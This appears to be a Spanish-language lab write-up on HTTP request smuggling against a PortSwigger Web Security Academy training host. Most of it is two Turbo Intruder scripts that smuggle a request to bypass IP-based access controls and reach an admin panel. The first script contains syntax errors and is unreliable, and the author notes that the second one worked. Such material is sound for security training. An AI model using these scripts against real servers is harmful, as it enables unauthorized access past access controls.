 Aquí modificamos la petición smuggleada para apuntar al host localhost, lo que nos permite eludir restricciones de acceso y alcanzar el panel de administración.

El resultado confirma el acceso interno al panel, validando que el ataque puede romper controles de acceso basados en IP.

Solucion
Entonces para efectuar el payload vamos a ocupar la extencion turbo intruder del BS y la configuramos de esta manera

payload (# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    attacker_request = """POST /resources HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: %$

%$"""

    smuggled_request = """GET /error HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net

"""

    normal_request = """GET / HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net

"""

    engine.queue(attacker_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\nGET'], pauseTime=61000)
    engine.queue(normal_request)

def handleResponse(req, interesting):
    table.add(req))
    ![Pasted image 20250812234714.png](imagenes/Pasted image 20250812234714.png)
    pero este payload fue el que me funciono 
    (def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    smuggled_request = """GET /error HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net

"""

    attacker_request = """POST /resources HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: %s

%s"""

    normal_request = """GET / HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net

"""

    engine.queue(attacker_request, [str(len(smuggled_request)), smuggled_request], pauseMarker=['\r\n\r\nGET'], pauseTime=61000)
    engine.queue(normal_request)

def handleResponse(req, interesting):
    table.add(req)
)

![Pasted image 20250812235400.png](imagenes/Pasted image 20250812235400.png)
